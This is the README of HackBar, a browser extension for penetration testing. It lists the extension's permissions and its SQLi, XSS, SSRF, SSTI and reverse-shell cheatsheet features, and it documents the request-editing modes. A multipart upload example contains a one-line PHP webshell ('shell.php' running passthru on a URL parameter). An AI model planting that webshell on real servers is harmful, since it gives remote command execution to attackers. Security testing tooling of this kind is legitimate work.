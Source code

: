# HackBar

A browser extension for Penetration Testing.

Available on [Chrome Web Store](https://chrome.google.com/webstore/detail/hackbar/ginpbkfigcoaokgflihfhhmglmbchinc).

## Requested Permissions

- storage

  - Save theme preferences

- scripting

  - Perform POST request
  - Run test function

- webRequest

  - Remember request information
  - Listen finish event to clean up

- declarativeNetRequest
  - Set HTTP header value based on settings

## Features

- Load

  - From tab (default)
  - From cURL command

- Supported

  - HTTP methods
    - GET
    - POST
      - application/x-www-form-urlencoded
      - [multipart/form-data](#multipartform-data)
      - [application/json](#applicationjson)
  - Request editing mode
    - Basic
    - Raw

- Auto Test

  - Common paths (Wordlist from [dirsearch](https://github.com/maurosoria/dirsearch/blob/master/db/dicc.txt) included)

- SQLi

  - Dump all database names (MySQL, PostgreSQL)
  - Dump tables from database (MySQL, PostgreSQL, SQLite)
  - Dump columns from database (MySQL, PostgreSQL, SQLite)
  - Union select statement (MySQL, PostgreSQL, SQLite)
  - Error-based injection statement (MySQL, PostgreSQL)
  - [Dump in one shot payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-dios---dump-in-one-shot) (MySQL)
  - [Dump current query payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-current-queries) (MySQL)
  - Space to Inline comment

- XSS

  - Vue.js XSS payloads
  - Angular.js XSS payloads for strict CSP
  - Some snippets for CTF
  - Html encode/decode with hex/dec/entity name
  - String.fromCharCode encode/decode

- SSRF

  - AWS - IAM role name

- SSTI

  - Jinja2 SSTI
    - ["From Flask config to RCE" Reference](https://twitter.com/realgam3/status/1184747565415358469)
  - Java SSTI

- Shell

  - Python reverse shell cheatsheet
  - sh(bash) reverse shell cheatsheet
  - nc(ncat) reverse shell cheatsheet
  - PHP webshell/reverse shell cheatsheet

- Encoding

  - URL encode/decode
  - Base64 encode/decode
  - Hexadecimal encode/decode
  - Unicode encode/decode
  - Escape ASCII with hex/oct

- Hashing
  - MD5
  - SHA1
  - SHA256
  - SHA384
  - SHA512

## Usage

### How to open it?

1. Open **Developer tools** (Press `F12` or `Ctrl + Shift + I`)
2. Switch to **HackBar** tab
3. Enjoy it

### Shortcuts

| Description | Default   | Mac           |
| ----------- | --------- | ------------- |
| Load        | `Alt + A` | `Control + A` |
| Split       | `Alt + S` | `Control + S` |
| Execute     | `Alt + X` | `Control + X` |

## Request Editing

### Basic mode

#### multipart/form-data

After changing **enctype** field to `multipart/form-data`, you can put your payload into **Body** field such as the following:

```text
------WebKitFormBoundarydbJBATDXCC6CL0lZ
Content-Disposition: form-data; name="user"

user
------WebKitFormBoundarydbJBATDXCC6CL0lZ
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-httpd-php

<?php passthru($_GET['c']); ?>
------WebKitFormBoundarydbJBATDXCC6CL0lZ--
```

We will consider the first line as boundary, and reconstruct a form element to send your request.

Therefore, sent boundary will not be the same as you typed.

#### application/json

After changing **enctype** field to `application/json`, you can put your payload into **Body** field such as the following:

```json
{
  "username": "admin",
  "password": "admin"
}
```

If your payload doesn't contain `=`:

In order to post JSON data, we will insert a dummy field or object to your JSON such as the following:

```json
{ "username": "admin", "password": "admin", "4dxnzjzd5mi": "=" }
```

For more details, please visit "[Posting JSON with an HTML Form](https://systemoverlord.com/2016/08/24/posting-json-with-an-html-form.html)".

### Raw mode

This mode is implemented via `fetch` API. It will try the best to send a request as same as you typed.

However, there are some limitations:

**Request**

- It is unable to use a specified HTTP protocol version.
  > The protocol version is fixed to `HTTP/1.1` in the editor, but what version used in a request is up to `fetch` behavior.
- Some HTTP headers may appear in a sent request even if you don't add them in the editor.<br/>
  e.g. `Connection`, `Cache-Control`, `Pragma`, etc.
  > These headers will be assigned a default value. For example, `Connection: keep-alive`, `Cache-Control: no-cache`.

**Response**

- It always shows `HTTP/1.1` if used protocol version is higher than or equal to HTTP/2.
  > See also [Chromium Code Search](https://source.chromium.org/chromium/chromium/src/+/main:net/spdy/spdy_http_utils.cc;l=53;bpv=1;bpt=0)

## Third-party Libraries

See `package.json` for details.

## Contributor

- [lebr0nli](https://github.com/lebr0nli)
- [boylin0](https://github.com/boylin0)
